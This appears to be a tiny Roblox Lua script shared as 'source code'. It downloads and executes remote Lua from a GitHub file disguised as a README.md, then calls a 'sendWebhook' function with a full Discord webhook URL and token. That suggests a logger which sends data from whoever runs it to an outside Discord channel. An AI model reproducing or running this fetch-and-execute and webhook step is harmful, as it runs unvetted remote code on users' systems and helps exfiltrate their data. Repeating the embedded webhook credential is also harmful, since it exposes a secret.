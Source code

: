 
skidApi = loadstring(game:HttpGet('https://raw.githubusercontent.com/Vaiziz/ezarthehhrr/main/README.md'))()

skidApi:sendWebhook('https://discord.com/api/webhooks/906165995486457927/f3sERFbDhmVxR3KBDmiNEhnS8qKapc2ZXnLsbiiR0GeVZtMZtH4k_mizKcPS75jhggmY')
